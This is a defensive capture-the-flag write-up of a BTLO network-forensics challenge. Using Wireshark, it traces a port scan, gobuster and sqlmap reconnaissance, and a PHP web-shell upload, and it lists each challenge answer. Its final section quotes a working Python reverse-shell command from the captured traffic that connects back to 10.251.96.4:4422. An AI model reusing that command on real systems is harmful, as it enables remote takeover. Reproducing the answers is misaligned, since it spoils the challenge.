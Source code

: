 ```yaml
---
layout: article
title: Network Analysis - Web Shell
aside:
  toc: true
sidebar:
  nav: write-ups
cover: https://upload.wikimedia.org/wikipedia/commons/thumb/d/df/Wireshark_icon.svg/1200px-Wireshark_icon.svg.png
permalink: /writeups/network-analysis-web-shell
tags:
- BTLO
- Challenges
author: z3f1r0
---
```


## Scenario
The SOC received an alert in their SIEM for ‘Local to Local Port Scanning’ where an internal private IP began scanning another internal system. Can you investigate and determine if this activity is malicious or not? You have been provided a PCAP, investigate using any tools you wish.

`Wireshark`{:.info} `Tshark`{:.info} `TCPDump`{:.info}

Before starting this challenge I suggest to study network protocols, how to make network analysis and how the web works.

## Challenge Submission

### What is the IP responsible for conducting the port scan activity?
To complete this challenge I used [Wireshark](https://www.wireshark.org/){:target="_blank"}. I feel absolutely confident with this tool.
The goal is to analyse network traffic in order to answer challenge's questions.
First of all I opened pcap file and checked for *Endpoint Statistics*.
Curious thing is that only two endpoints have lot of bytes transmitted and received, so I filtered for these two IPs.

![Alt text](https://raw.githubusercontent.com/z3f1r0/z3f1r0.github.io/master/img/net-analysis-web-shell/1.png)

It was simple to understand which endpoint generated traffic in order to perform a "Local to Local Port Scanning".

>10.251.96.4

### What is the port range scanned by the suspicious host?
To solve this question I applied the following query:
```wireshark
ip.src==10.251.96.4 && ip.dst==10.251.96.5
```
and then I ordered *Dest. Port.* column in ascending and I looked for this kind of info packet:
```
673	2021-02-07 16:33:06.260189996	10.251.96.4	10.251.96.5	81	TCP	62	41675 → 81 [SYN] Seq=0 Win=1024 Len=0 MSS=1460
```

>81-1024

### What is the type of port scan conducted?
In this type of Port Scanning, there are two important messages between hosts.
First host: *SYN*
Second host: *RST, ACK* or *SYN/ACK*
This is a specific Port Scanning technique: **TCP SYNScan**.
You can read more [here](https://iphelix.medium.com/port-scanning-techniques-7661839d182e){:target="_blank"} about Port Scanning's Techniques.
[Here](https://www.howtouselinux.com/post/tcp-flags){:target="_blank"} you can read more about packet TCP Flags.

 - This is a good query cheat sheet for [Detection network attacks with Wireshark](https://www.infosecmatter.com/detecting-network-attacks-with-wireshark/){:target="_blank"}

>TCP SYN

### Two more tools were used to perform reconnaissance against open ports, what were they?
Once we understand which hosts are interested we can filter by destination IP and Port.
```wireshark
(tcp.dstport == 80) && (ip.dst == 10.251.96.5)
```
Following various HTTP packets I noticed several GET Requests. 
Inside the packet we can note *User-Agent* field that was filled by a particular tool.
In this case **gobuster 3.0.1** a web directory enumeration tool.

I updated my query for the detection:
```wireshark
(tcp.dstport == 80) && (ip.dst == 10.251.96.5) && (http.user_agent)
```

Tools are two in according with the question. So I deleted gobuster rows to discover other details.
```wireshark
((tcp.dstport == 80) && (ip.dst == 10.251.96.5) && (http.user_agent)) && !(http.user_agent == "gobuster/3.0.1")
```

I noticed POST Requests and, investigating the packet, I discovered the second tool: **sqlmap 1.4.7** used to perform reconnaissance.

> gobuster 3.0.1, sqlmap 1.4.7

### What is the name of the php file through which the attacker uploaded a web shell?
The attacker uploaded a web shell so in this case we have to investigate filtering for POST Request because he's uploading something on the website.
```wireshark
(tcp.dstport == 80) && (ip.dst == 10.251.96.5) && http.request.method==POST
```

Last row of the result show us the name of the file through which the attacker uploaded the webshell.

![Alt text](https://raw.githubusercontent.com/z3f1r0/z3f1r0.github.io/master/img/net-analysis-web-shell/2.png)

>editprofile.php

### What is the name of the web shell that the attacker uploaded?
Following the TCP Stream we can see clearly the POST Request and the filename of the webshell.

![Alt text](https://raw.githubusercontent.com/z3f1r0/z3f1r0.github.io/master/img/net-analysis-web-shell/3.png)

>dbfunctions.php

### What is the parameter used in the web shell for executing commands?
Looking at the php code of the web shell we can see the parameter used.

>cmd

### What is the first command executed by the attacker?
We can use the following query to detect GET Requests after the upload of the web shell:
```wireshark
ip.src==10.251.96.4 && http.request.method == "GET"
```

![Alt text](https://raw.githubusercontent.com/z3f1r0/z3f1r0.github.io/master/img/net-analysis-web-shell/4.png)

>id

### What is the type of shell connection the attacker obtains through command execution?
Last command launched is a python reverse shell.
```wireshark
GET /uploads/dbfunctions.php?cmd=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.251.96.4%22,4422));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27 HTTP/1.1
```

>reverse shell

### What is the port he uses for the shell connection?
You can see the port used for the shell connection in the python command.

>4422

